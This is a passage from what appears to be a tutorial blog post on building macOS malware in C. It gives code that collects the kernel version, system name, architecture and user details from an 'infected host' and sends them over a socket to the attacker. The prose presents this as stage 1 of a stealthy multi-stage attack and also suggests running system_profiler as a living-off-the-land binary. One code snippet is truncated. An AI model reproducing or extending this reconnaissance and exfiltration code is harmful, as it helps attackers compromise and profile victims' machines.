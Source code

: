 we also wanna send some information like kernel version, for possible known vulnerabilities, to escalate, So here's an example, we use the same function as to get hardware model 

```c
size_t len = BUF_SIZE;
if (sysctlbyname("kern.version", &kernel_version, &len, NULL, 0) == 0) {
	send_data(sockfd, "\nKernel Version: ");
	send_data(sockfd, kernel_version);
```

Now let's dump and send more information about the profile of the infected host, including details such as System Name,  Architecture, Login shell,  Home directory and any other relevant data that could aid in further exploiting or maintaining access to the compromised system, W'll use function such as `uname`, `getpwuid`, and `getgrgid`,  Let's take a look at the code, 

```c
void system_info(int sockfd) {
  struct utsname sys_info;
  char kernel_version[BUF_SIZE];

  // Get system information
  if (uname( & sys_info) != 0) {
    send_error("Failed to get system information");
    return;
  }

  send_data(sockfd, "\nSystem Name: ");
  send_data(sockfd, sys_info.sysname);
  send_data(sockfd, "\nRelease Version: ");
  send_data(sockfd, sys_info.release);
  send_data(sockfd, "\nMachine Architecture: ");
  send_data(sockfd, sys_info.machine);
  send_data(sockfd, "\nOperating System: ");
  send_data(sockfd, sys_info.sysname);
  send_data(sockfd, "\nVersion: ");
  send_data(sockfd, sys_info.version);
```

So, the function is pretty self-explanatory; it simply provides a snapshot of the system and user environment, which is crucial for gathering information on potential targets. However, since malware typically only has one chance for infection, it needs to be self-reliant before attempting to Phone Home. This is why the approach of using a dummy malware, primarily for testing and exploring options before developing an actual malware, is essential.

Nevertheless, deploying a dummy malware still provides attackers with a significant amount of information that could be leveraged for subsequent targeted attacks or exploiting vulnerabilities, whether in the kernel or user land. The malware could be multi-staged to ensure stealth and a low profile. This code can act as stage 1 of an attack, proliferating itself in the system, waiting to activate stage 2, and so on. These types of attacks are advanced and hard to detect, especially in environments like macOS, where malware can remain undetected for years.

Another type of information gathering employed by macOS malware, as seen in some reports, involves 'LOLBins' (Living off the Land Binaries). You can program the malware to simply execute `/usr/sbin/system_profiler -nospawn -detailLevel full`,  For example. 

